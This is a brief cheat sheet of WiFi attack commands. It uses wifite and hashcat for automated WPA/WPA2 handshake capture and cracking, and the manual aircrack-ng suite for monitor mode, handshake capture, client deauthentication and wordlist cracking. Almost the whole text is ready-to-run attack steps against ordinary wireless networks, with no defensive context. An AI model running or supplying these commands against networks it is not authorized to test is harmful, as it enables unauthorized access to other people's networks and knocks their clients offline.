 ## Automated
sudo wifite -mac --skip-crack --clients-only -wpa --no-wps --no-pmkid

https://hashcat.net/wiki/doku.php?id=cracking_wpawpa2
https://hashcat.net/cap2hccapx
hashcat.exe -m 22000 HASHFILE -a 3 ?d?d?d?d?d?d?d?d?d

## The old way
airmon-ng check
airmon-ng check kill
airmon-ng start INTERFACE
airodump-ng INTERFACE
airodump-ng INTERFACE --bssid APMAC -c CHANNEL -w CAPFILE
aireplay-ng INTERFACE --deauth 20 -a APMAC -h CLIENTMAC
aircrack-ng -w WORDLIST CAPFILE
airmon-ng stop INTERFACE
systemctl start network-manager